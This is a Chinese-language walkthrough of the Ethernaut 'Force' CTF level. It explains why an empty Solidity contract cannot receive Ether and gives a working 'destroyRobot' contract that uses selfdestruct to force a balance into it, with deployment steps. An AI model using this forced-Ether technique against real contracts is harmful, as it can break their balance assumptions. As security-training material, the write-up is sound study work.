 # Force

## Reference
[Force](https://ethernaut.openzeppelin.com/level/7)

[Force.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/07-Force/Force.sol)

[SeleDestruct](https://www.evm.codes/#ff?fork=cancun)

## 目标
1. 让Force合约大于0

## 分析
1. 合约作为空合约
   1. 没有`payable`修饰的`constructor`构造函数，无法在合约部署过程中发送余额
   2. 合约没有`receive()/payable`修饰的`fallback()`函数，无法正常接收余额
2. 强制销毁当前合约并强制转账当前合约余额的字节码：`selfdestruct`
```solidity
selfdestruct(_addr); // 销毁当前合约并将当前合约余额发送到提供的地址
```
## 销毁合约
```solidity
contract destroyRobot {
    constructor() payable {}

    function killself(Force force) public {
        selfdestruct(payable(address(force)));
    }

    receive() external payable {}
}
```
1. 允许在合约部署过程以及征程接收`Ether`
2. 定义`killself`函数，实现自毁并强制转移资产

## 实现步骤
1. 、编译部署`Force`合约，部署 `destroyRobot`合约
2. `Force` 合约 余额为0
3. `destroyRobot`余额为0。
4. 转账任意Ether到`destroyRobot`合约，`destroyRobot`余额不为0
5. 执行 `destroyRobot`合约的`killself()`函数注册销毁，并将余额全部转到 `Force`合约
6. `Force`合约强制接收 `destroyRobot`的余额
